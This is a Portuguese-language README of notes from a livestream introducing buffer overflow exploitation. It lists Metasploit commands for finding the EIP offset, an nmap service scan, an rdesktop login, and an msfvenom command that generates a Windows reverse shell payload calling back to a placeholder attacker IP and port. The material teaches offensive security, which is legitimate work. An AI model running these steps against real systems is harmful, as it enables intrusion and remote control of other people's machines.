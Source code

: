 # Live - Buffer Overflow, uma introdução ao assunto

## Link do Youtube

Para quem perdeu a Live, segue o link do vídeo gravado do YouTube
```
https://youtu.be/oGZ01rvbfwE
```

## Tabela ASCII
```
Char  Dec  Oct  Hex   Linux
(nl)   10 0012  x0a   \n
(cr)   13 0015  x0d   \r
A      65 0101  x41
B      66 0102  x42
C      67 0103  x43
```

## Comandos utilizados

**Gerando texto único para identificação da posição do EIP**
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

**Checando a posição (offset) do EIP**
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
```

**Conectando no rdesktop**
```
rdesktop -u usuario -p senha -g 65% -x m endereco
```

**Buscando informações do serviço**
```
nmap -Pn -p21 -A 192.168.15.150
```

**Gerando payload do shell reverso**
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP_atacante LPORT=Porta_atacante -b "\x00\x0a\x0d\x40" -a x86 -f python
```
